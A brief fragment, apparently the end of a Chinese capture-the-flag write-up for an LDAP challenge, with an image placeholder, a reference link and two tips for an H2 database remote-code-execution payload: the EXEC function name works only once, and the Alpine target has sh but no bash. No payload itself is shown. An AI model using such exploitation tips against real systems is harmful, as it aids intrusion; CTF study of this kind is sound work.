

注意:

1. h2 rce这个payload的函数名EXEC只能用一次,第二次打不通
2. 这题是alpine环境,没有bash只有sh  
   ## 参考  
   <https://github.com/HSwift/my-ctf-challenges/tree/main/ezldap>
